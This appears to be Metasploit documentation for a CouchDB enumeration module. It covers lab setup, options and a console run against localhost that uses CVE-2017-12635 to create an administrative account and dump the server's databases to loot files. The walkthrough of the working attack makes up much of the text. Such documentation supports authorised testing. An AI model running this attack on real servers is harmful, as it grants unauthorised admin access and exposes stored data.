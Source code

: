 ## Vulnerable Application

Apache CouchDB is a nosql database server which communicates over HTTP.  This module will enumerate the server and databases hosted on it.

The following was done on Ubuntu 16.04, and is largely base on [1and1.com](https://www.1and1.com/cloud-community/learn/database/couchdb/install-and-use-couchdb-on-ubuntu-1604/):

  1. `sudo apt install software-properties-common`
  2. `sudo add-apt-repository ppa:couchdb/stable`
  3. `sudo apt update`
  4. `sudo apt install couchdb`
  5. Reconfigure couchdb to listen to all interfaces. Edit `/etc/couchdb/local.ini`. Under `[httpd]` add the following line: `bind_address = 0.0.0.0`
  6. Restart the service: `sudo service couchdb restart`

## Verification Steps

  1. Install and configure couchdb
  2. Start msfconsole
  3. Do: `auxiliary/scanner/couchdb/couchdb_enum`
  4. Do: `run`

## Options

  **SERVERINFO**

  If set to `true`, the server info will also enumerated and set in msf's DB.  Defaults to `false`.

  **CREATEUSER**

  If set to `true`, the server info will attempt to create an account in CouchDB using configured credentials (limited to CVE-2017-12635 conditions). Defaults to `false`.

## Scenarios

Dumping databases with `SERVERINFO` and `CREATEUSER` set:

```
msf5 > use auxiliary/scanner/couchdb/couchdb_enum
msf5 auxiliary(scanner/couchdb/couchdb_enum) > options

Module options (auxiliary/scanner/couchdb/couchdb_enum):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   CREATEUSER    false            yes       Create Administrative user
   HttpPassword  IJvoGDWAWzQo     yes       CouchDB Password
   HttpUsername  CQuXQnVwQAow     yes       CouchDB Username
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                         yes       The target address range or CIDR identifier
   ROLES         _admin           yes       CouchDB Roles
   RPORT         5984             yes       The target port (TCP)
   SERVERINFO    false            yes       Print server info
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /_all_dbs        yes       Path to list all the databases
   VHOST                          no        HTTP server virtual host

msf5 auxiliary(scanner/couchdb/couchdb_enum) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 auxiliary(scanner/couchdb/couchdb_enum) > set serverinfo true
serverinfo => true
msf5 auxiliary(scanner/couchdb/couchdb_enum) > set createuser true
createuser => true
msf5 auxiliary(scanner/couchdb/couchdb_enum) > set verbose true
verbose => true
msf5 auxiliary(scanner/couchdb/couchdb_enum) > check

[+] 127.0.0.1:5984 - Found CouchDB version 2.1.0
[*] 127.0.0.1:5984 - The target appears to be vulnerable.
msf5 auxiliary(scanner/couchdb/couchdb_enum) > run

[+] 127.0.0.1:5984 - Found CouchDB version 2.1.0
[+] 127.0.0.1:5984 - User CQuXQnVwQAow created with password IJvoGDWAWzQo. Connect to http://127.0.0.1:5984/_utils/ to login.
[+] 127.0.0.1:5984 - {
  "couchdb": "Welcome",
  "version": "2.1.0",
  "features": [
    "scheduler"
  ],
  "vendor": {
    "name": "The Apache Software Foundation"
  }
}
[*] 127.0.0.1:5984 - Enumerating Databases...
[+] 127.0.0.1:5984 - Databases:

[
  "_global_changes",
  "_replicator",
  "_users"
]

[+] 127.0.0.1:5984 - File saved in: /Users/wvu/.msf4/loot/20190107125002_default_127.0.0.1_couchdb.enum_790231.bin
[+] 127.0.0.1:5984 - _global_changes saved in: /Users/wvu/.msf4/loot/20190107125002_default_127.0.0.1_couchdb._global__841794.bin
[+] 127.0.0.1:5984 - _replicator saved in: /Users/wvu/.msf4/loot/20190107125002_default_127.0.0.1_couchdb._replica_022445.bin
[+] 127.0.0.1:5984 - _users saved in: /Users/wvu/.msf4/loot/20190107125002_default_127.0.0.1_couchdb._users_671128.bin
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/couchdb/couchdb_enum) >
```
